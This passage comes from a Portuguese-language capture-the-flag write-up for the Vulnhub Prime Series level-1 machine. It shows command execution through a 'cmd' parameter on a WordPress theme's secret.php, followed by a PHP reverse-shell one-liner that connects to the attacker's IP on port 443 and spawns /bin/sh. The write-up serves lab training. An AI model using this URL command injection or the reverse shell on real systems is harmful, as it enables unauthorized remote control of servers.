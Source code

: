 ![](/assets/img/Vulnhub/Prime_Series_level-1/php-safado.png)


* Naquela brincadeira sem graca, no comeco do CTF, de fuzzy de diretorios achamos o endereco http://192.168.150.113/wordpress/wp-content/themes/, onde provavelmente sao armazenados os temas da aplicacao.


* Agora temos um **RCE** passando comando via URL

```
http://192.168.150.113/wordpress/wp-content/themes/twentynineteen/secret.php?cmd=id
```

![](/assets/img/Vulnhub/Prime_Series_level-1/rce-id.png)


## Shell Reverso 


* Primeiro vamos procurar, usando o rbscheat, por um comando php para nos dar um shell reverso

```bash
rbscheat -i 192.168.150.113:443 -l php
```

![](/assets/img/Vulnhub/Prime_Series_level-1/rbscheat-php.png)

> php -r '$sock=fsockopen("192.168.150.110",443);exec("/bin/sh -i <&3 >&3 2>&3");'

